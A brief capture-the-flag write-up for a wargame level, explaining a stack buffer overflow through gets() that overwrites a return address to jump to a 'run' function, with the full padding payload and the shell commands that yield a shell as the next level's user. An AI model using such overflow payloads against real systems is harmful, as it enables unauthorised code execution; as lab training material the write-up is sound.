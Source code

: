 # level1

For this level, we use a stack buffer overflow attack on `gets()`
to modify the value on the stack of the function pointer the main will
return to.  
Padding: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS  
addresse de run: 0x08048444 -> \x44\x84\x04\x08  
We write the exploit to a file using  
`echo -e "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS\x44\x84\x04\x08"`  
and then run `cat /tmp/exploit /dev/stdin | ./level1`  
that gives us a shell as level2.